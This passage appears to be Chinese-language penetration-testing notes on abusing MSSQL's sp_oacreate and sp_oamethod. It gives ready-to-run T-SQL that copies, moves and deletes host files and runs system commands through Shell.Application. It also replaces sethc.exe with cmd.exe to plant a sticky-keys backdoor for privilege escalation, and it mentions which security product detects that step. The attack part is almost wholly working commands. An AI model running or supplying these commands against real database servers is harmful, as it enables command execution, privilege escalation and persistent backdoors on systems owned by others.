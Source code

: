 当然 sp_oacreate 除了可以调用 OLE 对象执行系统命令外，还能写入启动项、粘贴键替换等（可查阅：https://y4er.com/post/mssql-getshell/），思路方式很多。

### 复制文件

> declare @o int
> 
> exec sp_oacreate 'scripting.filesystemobject', @o out
> 
> exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe'

### 移动文件

> declare @aa int;
> 
> exec sp_oacreate 'scripting.filesystemobject', @aa out;
> 
> exec sp_oamethod @aa, 'moveFile',null,'c:\temp\ipmi.log', 'c:\temp\ipmi1.log';

### 删除文件

> DECLARE @Result  int
> 
> DECLARE @FSO_Token  int
> 
> EXEC @Result  = sp_OACreate 'Scripting.FileSystemObject', @FSO_Token  OUTPUT
> 
> EXEC @Result  = sp_OAMethod @FSO_Token, 'DeleteFile', NULL, 'C:\1.txt'
> 
> EXEC @Result  = sp_OADestroy @FSO_Token

### 调用 shell.application 执行命令

> declare @o int
> 
> exec sp_oacreate 'Shell.Application',@o out
> 
> exec sp_oamethod @o, 'ShellExecute',null,'cmd.exe','cmd /c net user >C:\1.txt','C:\windows\sytsem32','','1'

### 替换粘滞键（360 安全软件会识别出）

替换文件进行提权，将系统文件中 setch.exe 替换为 cmd.exe，相当于做了一个 shift 后门，或者也可以替换放大镜等功能进行提权。

> declare @o int;
> 
> exec sp_oacreate 'scripting.filesystemobject', @o out;
> 
> exec sp_oamethod @o, 'copyfile',null,'c:\windows\cmd.exe' ,'c:\windows\system32\sethc.exe';
> 
> declare @oo int;
> 
> exec sp_oacreate 'scripting.filesystemobject', @oo out;
> 
> exec sp_oamethod @oo, 'copyfile',null,'c:\windows\system32\cmd.exe' ,'c:\windows\system32\dllcache\sethc.exe';
> 
> # 若不执行第二组命令，文件会恢复。
